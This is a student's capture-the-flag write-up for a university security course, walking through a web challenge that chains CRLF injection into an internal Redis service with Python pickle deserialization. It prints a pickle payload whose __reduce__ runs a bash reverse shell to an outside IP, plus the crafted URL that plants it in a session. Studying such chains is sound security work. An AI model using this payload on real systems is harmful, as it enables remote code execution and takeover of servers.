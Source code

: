 # Computer Security Hw0x06 Writeup
* Realname: 胡安鳳
* ID on course web: alfons0329
* Student ID: R08922024
###### tags: `Computer Security` `NTU CS` `CS` `CTF` `Writeup`

## $\rightarrow Tinyurl \leftarrow \Sigma(\oplus \omega \oplus)||$ (web)
### Step 1, Exploit CRLF injection vulnerability
* In redis intranet app, there is a CRLF injection according to [this site](https://bugs.python.org/issue35906?fbclid=IwAR12OndtZ2NisFbraut6eW7-iXrcEye9SY-htwHny00t226YEgBITPMiH4M). That is, we may use CRLF injection to write some payload in redis database
(from `app.py`, redis is running at `redis:6379`)
![](https://i.imgur.com/rzAmNWG.png)

* So what can we do with this vulnerability?? Actually we can see that the `GET <session>` will return `{_pernament: True}` which means the expiration of session. $\rightarrow$ Which will be **deserialized** while the web browser with same session key (re)loads the page.

### Step 2, Exploit python deserialization vulnerability
From Step 1, we may write a serialized code for shell according to [this article](https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BPython%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/#0X05-Python-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%BD%95%E6%9D%A5) with `__reduce__` and picke serialization.
```python
class shell_class(object):
    def __reduce__(self):
        reverse_shell = "bash -c 'bash -i >& /dev/tcp/140.112.90.24/9527 0>&1'"
        return (os.system, (reverse_shell, ))

sh = shell_class()
sh_serial = pickle.dumps(sh)
```
### Step 3, Hack the session cookie
Write the reverse shell payload to session of `edu-ctf.csie.org:10163`

Note: We cannot (over)write our own session data, so write to the session of second browser instead.

![](https://i.imgur.com/bEPmJUV.png)
or code

```python
sh_serial = str(sh_serial)[1:]
sh_serial = urllib.parse.quote(sh_serial)

# send payload
p = 'http://redis:6379/?q=HTTP/1.1%0D%0ASET 
"session:ffab9582-1ec5-461b-af2e-15621b9b4d67" 
' + sh_serial + '%0D%0AHeader2: THIS_IS_MY_HEADER_2%0D%0A'
```

![](https://i.imgur.com/rEYMuSG.png)

### Step 4, Get reverse shell

Reload the webpage in broewer with session ID [  session:ffab9582-1ec5-461b-af2e-15621b9b4d67  ] for reverse shell.
![](https://i.imgur.com/qckDIE2.png)

